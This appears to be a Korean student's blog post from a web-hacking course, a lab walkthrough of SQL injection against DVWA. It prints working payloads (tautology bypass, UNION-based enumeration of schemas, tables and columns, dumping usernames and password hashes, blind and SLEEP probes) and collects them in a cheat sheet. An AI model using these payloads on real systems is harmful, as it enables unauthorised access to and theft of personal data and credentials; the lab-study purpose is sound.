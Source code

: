 ```yaml
---
title:  '[강의] 5주차 웹 해킹- 웹 해킹 기술 탐색 4'
excerpt: "week5"

categories:
  - study
  - etc
  - hacking
tags: [study, etc, virtualbox, kalilinux, hacking]

last_modified_at: 2021-07-22T08:06:00-05:00
classes: wide
---
```


### 8주간의 해킹 스터디 다섯번째 시간

벌써 5주차가 되었다. 시간이 참 빠른 것 같다. 내가 연구할 분야와는 관련이 없지만 알아두면 매우 좋을것 같아서 듣는 내내 유익해서 여기까지 온 것 같다 ㅎㅎ

강의링크는 오른쪽 클릭! => [goormedu](https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술)

<br>
이번 시간은 공격에 성공할 경우 큰 피해를 입힐 수 있는 SQL문 주입을 통해 데이터베이스를 조작하는 **SQL 인젝션 공격**에 대해 알아보겠습니다.

<hr>

### SQL 인젝션 공격

DB에 전송되는 SQL 쿼리문을 조작해 DB내의 데이터를 변조하거나 다른 사용자의 개인정보와 같이 허가되지 않은 정보에 접근하는 공격이다. 웹사이트의 회원정보 등 개인정보를 빼내는 공격으로 최근까지 꾸준히 사용된다고 한다.🥵🥵

SQL 인젝션 공격에는 기본 2가지가 있다. 

### 1. where 구문 공격

ID가 1인 사용자 정보를 요청하는 시나리오!

요청을 받으면 웹어플리케이션은 내부 DB로 조건문 `WHERE`을 포함하나 SQL 쿼리문을 전송하는데, 쿼리문을 해석해보면 ID=1 인 사용자의 이름과 이메일을 가져오라는 것이다.

이 쿼리가 실행이 되면 ID가 1인 사용자 정보가 웹어플리케이션을 통해 사용자에게 전송된다. 

![image](https://user-images.githubusercontent.com/53431568/126730025-8f3f63c4-b4b2-4a87-958e-73128e1df656.png)

이때! 해커가 1 뒤에 `' or '1'='1` 이런식으로 조작해서 보낸다. 즉, **'1'='1 이라는 항상 참**이되는 조건으로 조작을 해버린 것이다. 🥵🥵🥵

![image](https://user-images.githubusercontent.com/53431568/126730455-9a1af10f-d59e-4c40-a464-a2bf14e4ee4a.png)

결국 WHERE 구문이 우회가 되며 모든사용자의 개인정보를 반환하게 된다.

![image](https://user-images.githubusercontent.com/53431568/126730546-54b50da6-66c5-4bba-adcc-8308b3186c19.png)



### 2. UNION

똑같은 시나리오를 가정하자!

![image](https://user-images.githubusercontent.com/53431568/126730025-8f3f63c4-b4b2-4a87-958e-73128e1df656.png)

이번에 해커는 or 대신에 `union` 을 이용해 뒤에 PASSWORD를 요청하는 구문을 실행하였다.

아래 그림과 같이 union을 사이에 두고 SELECT 구문 두개가 배치되는 것을 볼 수 있다. => **`union은 합집합 개념으로 두개의 구문을 포함해 실행시킨다.`**

끝에 삽입된 #은 뒤에 오는 쿼리문을 생략한다는 뜻으로 해커가 원하는 명령어만 실행하여 공격할 수 있게 된다.🙀🙀 증말 흥미진진하다 ㅋㅋㅋ

![image](https://user-images.githubusercontent.com/53431568/126730690-03ad46b7-0063-4d21-9f11-d4839825affc.png)

이런식으로 정보를 빼내게 된다.

![image](https://user-images.githubusercontent.com/53431568/126730890-f88395e8-a76c-4ca6-9d17-9b3a2af79c23.png)


<br>

이제 재미있는 실습의 시간이다 ㅎㅎ

###  SQL 인젝션 공격 실습

### (1) LOW 단계 - WHERE

먼저 security를 low로 설정하고 SQL Injection 페이지에서 User ID: 1 을 입력하면 다음과 같이 정보가 출력된다.

![image](https://user-images.githubusercontent.com/53431568/126731020-c9dc323e-9e78-4471-a5f1-2a95a113e45e.png)

소스코드를 확인해 어떻게 동작하는지 알아보자!

다음과 같이 query 문을 보면 id가 들어오는 부분에 이미 `'$id'` 처럼 `작은따옴표 두개('')` 로 둘러쌓인것을 볼 수 있다. 

이 곳에 또 다른 작은따옴표가 들어오면 총 `user_id='''` 이런식으로 작은따옴표가 3개가 되어 에러가 발생한다. 한번 확인해보자!

![image](https://user-images.githubusercontent.com/53431568/126731183-4186e00b-b6b5-44d1-948d-f0922a8ecacc.png)


작은따옴표 ' 를 입력하였더니 정말 에러가 발생하였다. 이렇게 **비정상적인 문자를 입력했을 때 SQL쿼리문이 잘못되어 에러가 나면 해당 페이지는 SQL쿼리문을 사용하여 동작**한다는 것을 해커는 눈치챌 수 있으며 이것을 보고 SQL 쿼리문으로 공격할 수 있구나!! 라고 여지를 주게 되는 것이다.

![image](https://user-images.githubusercontent.com/53431568/126731075-df49a603-5c6e-4fef-b9d2-d3f207fc95c4.png)

이번엔 **1' or '1'='1**을 실행해보면 테이블의 모든 정보가 출력되었다.!! ID가 1이라는 것과 상관없이 모든 사용자의 정보가 나오게 된 것이다. 

![image](https://user-images.githubusercontent.com/53431568/126731533-22390548-dd64-41cd-bea2-80f8b15b7b0d.png)

위에서 설명한 # 을 이용하여 작은따옴표(')를 입력해도 에러가 발생하지 않게 해보자.
'ID' 이런식으로 작은따옴표 안에 ID가 감싸지므로 `**'#**` 을 입력한다면 ''id#' 으로 값이 들어가고 #뒤의 명령어는 주석처리 되므로 작은따옴표(')가 2개가 되어 에러가 발생하지 않게 되는 것이다.
 
![image](https://user-images.githubusercontent.com/53431568/126731668-6989cb9a-de8c-4a58-83f6-ac783bdbe99c.png)



### (1) LOW 단계 - UNION

UNION을 이용한다면 DB의 모든 정보를 알아낼 수 있다. UNION을 사용하려면 `**원래 쿼리문이 조회하는 SELECT문의 칼럼갯수**`와 `**UNION뒤의 SELECT문에서 요청하는 칼럼수**`가 같아야 한다. 아니면 에러발생! 

따라서 **원래 쿼리문이 몇개의 칼럼을 반환 하는지 알아내야 한다.** 

실행해보자! 다음과 같이 명령어를 입력하면... 
![image](https://user-images.githubusercontent.com/53431568/126732180-8989ba20-2282-4cb0-9bd4-9fda738ca14d.png)

칼럼수가 맞지 않는다는 경고 메세지를 보여준다.

![image](https://user-images.githubusercontent.com/53431568/126732164-2e94daea-17c2-4c10-83b6-7a01744f7e0d.png)

이번에는 칼럼 2개를 넣어보았더니 아래와 같이 결과가 출력되었다.! 즉, union 이전 쿼리문은 2개의 칼럼을 조회한다는 것을 알아내었다.

![image](https://user-images.githubusercontent.com/53431568/126732267-6f651c08-4da5-43a9-94ed-a47980280fea.png)

다른 방법을 이용해서도 칼럼갯수를 알 수 있다. 바로 `ORDER BY`라는 키워드를 이용하는 것이다. 이 키워드는 어떤 칼럼을 기준으로 정렬할때 쓰는 구문인데 칼럼의 갯수보다 크면 에러가 발생하게 된다. 따라서 원래 칼럼갯수를 맞출 수 있다. 

2일때, 

![image](https://user-images.githubusercontent.com/53431568/126732412-d6fe50ed-46c4-4b81-85a3-ef6f2fb0af6e.png)

3일때, 3이라는 칼럼을 알 수 없다라는 에러메세지를 출력한다. 따라서 2개의 칼럼까지 있다는 것을 알 수 있다. 
![image](https://user-images.githubusercontent.com/53431568/126732428-2d3c492c-92a4-46cb-9dd5-9f0b3d9c7e42.png)

이제 union 공격을 해보자!🙋🏽🙋🏽



#### 데이터베이스 명 조회

~~~sql 
1' union select schema_name,1 from information_schema.schemata #
~~~

![image](https://user-images.githubusercontent.com/53431568/126734180-ee4edb97-9856-46f9-9c3c-71c3d9ca07d5.png)


#### dvwa 데이터베이스의 테이블 명 조회

~~~sql 
1' union select table_schema, table_name from information_schema.tables where table_schema = 'dvwa' #
~~~
 
위의 명령어를 통해 guestbook, users 라는 테이블이 있는 것을 확인할 수 있다. 개인정보가 있는것처럼 보이는 users 테이블을 살펴보도록 한다.
 
![image](https://user-images.githubusercontent.com/53431568/126734262-bc25ea5c-2802-4bd8-95bf-d94b0cbc18cb.png)



#### users 테이블 칼럼 조회
~~~sql 
1' union select table_name, column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'#
~~~ 

user_id, first name, surname, passwd 를 보여준다.

![image](https://user-images.githubusercontent.com/53431568/126734314-e90e55e6-27e0-42a2-bd36-83dff156ba39.png)



이제, users 테이블에서 사용자이름과 password 만 출력해보자!

~~~sql 
1' union select user,password from users#
~~~

아래와 같이 사용자명과 password가 surname에 해쉬값의 형태로 출력되었다.




구글탭에 해쉬값을 넣어 password를 알아보면 어떤 문자열인지 알 수 있다. 



<br><br>

이 밖에도 다양한 명령어들로 공격을 할 수 있다. 명령어들을 정리해두었다.

<details markdown="1">
<summary>명령어 정리🔎</summary>

~~~sql 
# WHERE 구문 우회
1' or '1'='1

# UNION을 이용한 칼럼 갯수 알아내기
1' union select 1,1#

# ORDER BY 구문을 이용한 칼럼 갯수 알아내기
1' order by 2#

# 데이터베이스 명 조회
1' union select schema_name,1 from information_schema.schemata #

# dvwa 데이터베이스의 테이블 명 조회
1' union select table_schema, table_name from information_schema.tables where table_schema = 'dvwa' #

# users 테이블 칼럼 조회
1' union select table_name, column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'# 

# 블라인드 SQL 인젝션 참 구문
1' AND 1=1# 

# 블라인드 SQL 인젝션 거짓 구문
1' AND 1=2#

# 시간기반 블라인드 SQL 인젝션 탐지 구문
1' AND SLEEP(5)#
~~~

</details>

<br><br>



### (2) 블라인드 SQL 인젝션




